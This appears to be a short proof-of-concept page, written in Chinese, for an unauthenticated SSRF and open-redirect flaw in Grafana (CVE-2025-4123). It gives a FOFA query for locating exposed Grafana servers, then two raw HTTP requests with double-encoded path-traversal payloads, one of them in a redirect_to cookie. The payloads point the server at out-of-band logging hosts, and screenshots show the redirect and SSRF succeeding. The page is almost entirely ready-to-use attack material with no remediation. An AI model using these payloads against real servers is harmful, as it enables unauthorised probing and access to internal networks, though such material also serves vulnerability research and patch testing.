 # Grafana存在未授权SSRF漏洞(CVE-2025-4123)

# fofa
```
app="Grafana"
```

## poc

```javascript
GET /render/public/..%252f%255Cczeqm5.dnslog.cn%252f%253F%252f..%252f.. HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Fedora; Linux i686; rv:128.0) Gecko/20100101 Firefox/128.0
Connection: close
Accept-Encoding: gzip
```
<img width="886" alt="1749624834319" src="https://github.com/user-attachments/assets/e139dab4-6d61-4f29-aff2-a8f84d29cd6c" />

```
GET /public/..%2F%5c123.czeqm5.dnslog.cn%2F%3f%2F..%2F.. HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 12) AppleWebKit/616.19 (KHTML, like Gecko) Version/17.7.17 Safari/616.19
Connection: close
Cookie: redirect_to=%2Frender%2Fpublic%2F..%25252f%25255Cd0nt31pu8bl7cn5ncca08sg68smps8h39.oast.live%25252f%25253F%25252f..%25252f..
Accept-Encoding: gzip
```
<img width="847" alt="1749624867787" src="https://github.com/user-attachments/assets/e41c2152-38a2-49ca-a21b-f99a23a4a567" />

跟随重定向后 重定向数据

<img width="948" alt="1749624883551" src="https://github.com/user-attachments/assets/fb55bccf-853f-4773-810b-3c91580089a8" />

ssrf

<img width="878" alt="1749624901460" src="https://github.com/user-attachments/assets/82c6ee4a-4165-4245-9f23-8129af9b6ed3" />
